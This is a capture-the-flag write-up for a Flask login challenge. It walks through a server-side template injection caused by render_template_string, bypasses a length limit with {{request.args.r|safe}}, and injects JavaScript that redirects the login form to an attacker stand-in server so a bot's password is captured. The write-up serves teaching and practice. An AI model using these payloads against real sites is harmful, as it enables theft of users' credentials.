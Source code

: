 ![image](https://user-images.githubusercontent.com/64314534/234607512-23006716-acb8-4149-86f8-4e0532e85e6d.png)

When we enter the challenge we will find a simple login page with a number of failed logins

<br>

![image](https://user-images.githubusercontent.com/64314534/234608009-f52b5e94-ec1c-4a0d-a5ca-227bbe8f79b5.png)

after trying a simple creds   `admin:admin`

we will got : `wrong username or password` and the number of failed login has been increased .

# Let's review the code  (Flask)
<br>

![image](https://user-images.githubusercontent.com/64314534/234610042-578eb5ff-8b3b-44e3-ac9d-1d04adf110e0.png)

<br>

The code is very simple let's divde it into pieces to explain it 

### First part : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234610860-54a13eeb-b6f7-4960-ae89-0d3a257667a2.png)

<br>

The application import some libraries like Flask , escape and render_template_string (keep in mind that this function is vulnerable to ssti) and then there is an html template which had a variable called fails and also a place for a string 


<br>



### Second part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234611740-25594be1-a173-4e42-9542-c3400257dde4.png)

<br>

The get route of the index is doing the following : 

- get the fails variable which had the number of failed logins 
- check if there is a parameter called message and then check if it's length is equal or greater than 25 and if this it will send the index page with the number of fails
- if the message param's length less than 25 it will pass the message to the escape() function which will filtered it against xss then it will render the template and append the message to it in the place of string (format string) and this will cause an ssti vulnerability
- but since they provide a flag so, we don't need to get RCE or something 

### Third part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234614375-161e31e3-e654-4f5f-a306-184395c48c6f.png)

<br>

this is the login function and it's broken as we can see it's not working, just increasing the number of failed logins

### The bot code 
<br>

![image](https://user-images.githubusercontent.com/64314534/234615117-8b579722-bcf2-4c97-a2ae-1232d95ee3f2.png)


<br>

As we can see from the selected parts the bot logins with the username:admin and the password : flag 
so, we need to get xss to change the form action and get the password which is the flag : D

i opened my burp suite to do some debugging with the ssti 

<br>

![image](https://user-images.githubusercontent.com/64314534/234615966-57a7de01-732b-4ac0-99d3-ee4bf3c92a51.png)

![image](https://user-images.githubusercontent.com/64314534/234616110-df9aa7c2-c4c9-4f59-959e-b00b2ee57e8e.png)


<br>

As you see we can confirm that the message parameter is not vulnerable to Xss but vulnerable to ssti, TBH iam not very good at flask templates but i know there is something called jinja2 filters (flask using jinja2 as a template engine)

Ex : {{thing|filter}}   : {{-123456|abs}} will return 123456 (the absolute value of the number)

after searching in jinja2 filters i found that `safe` filter will prevent the element from being escaped 
<br>

![image](https://user-images.githubusercontent.com/64314534/234619129-867a7228-a749-4967-84bf-49bc06ec30ac.png)

![image](https://user-images.githubusercontent.com/64314534/234619458-93d34009-d11c-4c68-aa8f-a32d9f019463.png)

Still we had the length problem so we can refer to another parameter to bypass the length by this payload : {{request.args.r}} 

- Final payload : {{request.args.r|safe}}

<br>

![image](https://user-images.githubusercontent.com/64314534/234620142-6198e5f4-22da-42db-8e34-81f5770779b0.png)

<br>
and we now bypassed all filters for this challenge let's see how we can edit the form action to be our server we can use this simple js code 


`<script>document.forms[0].action='https://ourserver'</script>`

<br>
But after i tried it in the browser i got this error in the console : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234620959-5366f456-f7df-4049-b774-f01a1201d425.png)

<br>

Do you know why ?? Because the script is executed before the login form is loaded. so we will make a quick modify to our script :

window.onload =function(){document.forms[0].action="http://our_server"};
<br>

and i got the flag : ) 

<br>

![image](https://user-images.githubusercontent.com/64314534/234622519-3465bb6e-25ba-461b-845f-b3cbb87cbe17.png)


